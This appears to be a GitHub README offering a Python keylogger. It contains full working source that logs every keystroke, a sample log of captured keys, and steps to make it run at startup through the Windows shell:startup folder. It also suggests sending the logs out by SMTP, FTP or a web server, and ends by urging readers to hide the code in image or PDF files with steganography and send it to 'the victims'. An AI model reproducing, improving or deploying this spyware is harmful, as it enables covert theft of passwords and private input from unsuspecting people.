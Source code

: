 ## python3_Keylogger ♘
python3 keylogger 

1) install python 3 then install pynput with following command
	```python
	   python -m pip install pynput
	```
2) output was automatically saved on script directory that was running <br>
3) Use Shell as follow<br>
  3-1) win+R<br>
  3-2) paste shell:startup then enter<br>
  3-3) copy keylogger.py in folder that apeared before<br>
  3-4) change dir to different location<br>

### you can use SMTP Email or FTP Client or Web Server to get KeyStroke
#### Good Luck! (mrt.mycloud@gmail.com)

```python
from pynput.keyboard import Key, Listener
import logging

log_dir = ""

logging.basicConfig(filename=(log_dir + "keylogs.txt"), \
	level=logging.DEBUG, format='%(asctime)s: %(message)s')

def on_press(key):
    logging.info(str(key))

with Listener(on_press=on_press) as listener:
    listener.join()
```
output as follow
```C#
2021-04-10 16:46:43,841: Key.backspace
2021-04-10 16:46:44,298: 'p'
2021-04-10 16:46:44,578: 'y'
2021-04-10 16:46:44,826: 't'
2021-04-10 16:46:44,922: 'h'
2021-04-10 16:46:45,154: 'o'
2021-04-10 16:46:45,354: 'n'
2021-04-10 16:46:45,898: <99>
2021-04-10 16:46:47,178: <193>
2021-04-10 16:46:48,114: Key.shift_r
2021-04-10 16:46:48,474: '+'
2021-04-10 16:46:49,298: Key.backspace
2021-04-10 16:46:50,346: Key.shift_r
```
#### this keylogger can be used on windows/linux/Mac
#### ʕ•́ᴥ•̀ʔ you can Hide this code on .jpg/.png/.pdf with "steganography" then send to the victims
